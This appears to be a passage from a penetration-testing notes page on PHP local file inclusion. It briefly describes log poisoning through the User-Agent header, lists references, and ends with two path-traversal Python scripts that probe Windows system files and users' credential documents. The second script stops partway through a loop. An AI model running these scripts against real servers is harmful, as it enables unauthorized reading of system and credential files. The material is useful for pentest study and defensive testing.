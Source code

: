 #### [[Log-Poisoning]]

If you can execute Log Poisoning by injection malicious PHP code into the User-Agent field of a request that is then saved in the log files LFI can then be used to execute the PHP code. See [[Log-Poisoning]] page.

## References

[certcube](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/)
[Kory Kyzar](https://gist.github.com/korrosivesec)
[rapid7](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)
[Older PHP apps have nullbyte vulnerability](https://www.php.net/manual/en/security.filesystem.nullbytes.php) 
https://www.php.net/manual/en/wrappers.php](https://www.php.net/manual/en/wrappers.php)
[https://www.php.net/manual/en/wrappers.php.php](https://www.php.net/manual/en/wrappers.php.php)
[https://www.php.net/manual/en/wrappers.data.php](https://www.php.net/manual/en/wrappers.data.php)
[https://www.php.net/manual/en/filesystem.configuration.php](https://www.php.net/manual/en/filesystem.configuration.php)
[THM Room File Inclusion, Path Traversal](https://tryhackme.com/room/filepathtraversal)
## Appendix

Script LFI starting 
ON TODO LIST
[rapid7 blog](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)

```python
import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
pages = ['WINDOWS/system32/drivers/etc/hosts', 'WINDOWS/system32/win.ini', 'WINDOWS/system32/debug/NetSetup.log', 'WINDOWS/system32/config/AppEvent.Evt', 'WINDOWS/system32/config/SecEvent.Evt', 'WINDOWS/Panther/unattend.txt', 'WINDOWS/Panther/unattend.xml', 'WINDOWS/Panther/unattended.xml', 'WINDOWS/Panther/sysprep.inf']
 
for x in pages:
                  check = requests.get(url + LFI + x)
                  if check.status_code == 200:
                                    webbrowser.open(url + LFI + x)

import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
usernames = ['bob.jones', 'tom.johnson', 'mary.thomas', 'bill.smith']
 
desktopini = '/Desktop/desktop.ini'
 
usersfiles = ['accounts.txt', 'passwords.doc', 'configs.txt', 'sensitiveinfo.doc']
 
for x in usernames:
                  check = requests.get(url + LFI + x + desktopini)
                  if check.status_code == 200:
```